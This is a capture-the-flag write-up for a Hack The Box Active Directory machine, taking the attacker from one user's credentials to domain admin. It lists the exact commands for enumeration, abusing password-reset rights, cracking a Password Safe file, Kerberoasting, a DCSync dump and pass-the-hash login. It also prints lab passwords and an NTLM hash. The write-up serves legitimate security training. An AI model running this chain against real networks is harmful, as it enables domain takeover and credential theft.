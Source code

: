 # HTB - Administrator

**IP Address:** `10.10.11.42`  
**OS:** Windows  
**Difficulty:** Hard  
**Tags:** #SMB, #WinRM, #BloodHound, #ShadowCredentials, #RPC, #PasswordCracking, 
#DCSync

---

## 1. Initial Enumeration

### 1.1 Ping

```bash
ping 10.10.11.42
```

✅ Host is up

---

### 1.2 Port Scanning

Basic port scan:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.42 -oG allPorts
```

Deeper scan with script and XML output:

```bash
nmap -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49668,51918,54283,54288,54302,54310 -sCV 10.10.11.42 -oN targeted -oX targetedXML
```

---

## 2. SMB and WinRM Access

```bash
crackmapexec smb 10.10.11.42
```

Edit `/etc/hosts` to map the domain:

```
10.10.11.42 administrator.htb
```

Verified user login with NetExec:

```bash
netexec smb 10.10.11.42 -u olivia -p ichliebedich
```

Login success, but user is not in the **Remote Management Users** group.

However, WinRM is open:

```bash
evil-winrm -i 10.10.11.42 -u olivia -p 'ichliebedich'
```

✅ Access as `olivia`

---

## 3. Enumeration

List users:

```bash
net user
```

RPC enumeration using Olivia’s credentials:

```bash
rpcclient -U "olivia%ichliebedich" 10.10.11.42
```

Dump domain users:

```bash
rpcclient -U "olivia%ichliebedich" 10.10.11.42 -c 'enumdomusers' > users.txt
cat users.txt | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' | sponge users.txt
```

Checked AS-REP roasting:

```bash
GetNPUsers.py -no-pass -usersfile users.txt administrator.htb/
```

No users were vulnerable.

---

## 4. BloodHound + LDAPDomainDump

Install BloodHound:

```bash
wget https://github.com/SpecterOps/bloodhound-cli/releases/latest/download/bloodhound-cli-linux-amd64.tar.gz
tar -xvzf bloodhound-cli-linux-amd64.tar.gz
./bloodhound-cli install
```

Dump LDAP data:

```bash
ldapdomaindump -u 'administrator.htb\olivia' -p ichliebedich 10.10.11.42
```

Access domain HTML data via a local web server.

Collect BloodHound data:

```bash
bloodhound-python -u 'olivia' -p 'ichliebedich' -c All --zip -ns 10.10.11.42 -d administrator.htb
```

Discovered a **GenericAll** relationship from `olivia` to `michael`.

---

## 5. Lateral Movement

Change `michael`’s password via NetExec or RPC:

```bash
net rpc password "michael" "newP@ssword2022" -U "administrator.htb"/"olivia"%"ichliebedich" -S 10.10.11.42
```

Used BloodHound to confirm `michael` can reset `benjamin`’s password as well:

```bash
net rpc password "benjamin" "newP@ssword2022" -U "administrator.htb"/"michael"%"newP@ssword2022" -S 10.10.11.42
```

---

## 6. File Access via SMB and FTP

Access shared files using `benjamin`:

```bash
smbmap -H 10.10.11.42 -u benjamin -p 'newP@ssword2022' -r
```

Discovered interesting file via FTP:

```bash
ftp 10.10.11.42
get Backup.psafe3
```

The file is a **Password Safe** database.

---

## 7. Cracking Password Safe

Used `pwsafe`:

```bash
pwsafe Backup.psafe3
```

Extracted hash using `pwsafe2john` and cracked with rockyou:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

✅ Password: `tekieromucho`

Logged into pwsafe and found credentials for user `emily`.

---

## 8. Privilege Escalation via Kerberoasting

Logged in as `emily` via WinRM:

```bash
evil-winrm -i 10.10.11.42 -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

Used **targetedKerberoast.py**:

```bash
python3 targetedKerberoast.py -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -d administrator.htb --dc-ip 10.10.11.42
```

Cracked Ethan's TGS hash:

```bash
john hash_ethan --wordlist=/usr/share/wordlists/rockyou.txt
```

✅ Password: `limpbizkit`

---

## 9. DCSync Attack → Domain Admin

Performed DCSync using Ethan’s credentials:

```bash
secretsdump.py administrator.htb/ethan:limpbizkit@10.10.11.42
```

✅ Retrieved Administrator NTLM hash

Logged in as Administrator:

```bash
evil-winrm -i 10.10.11.42 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```

✅ Root access obtained  
🏁 **Root flag retrieved**

---

# ✅ MACHINE COMPLETE
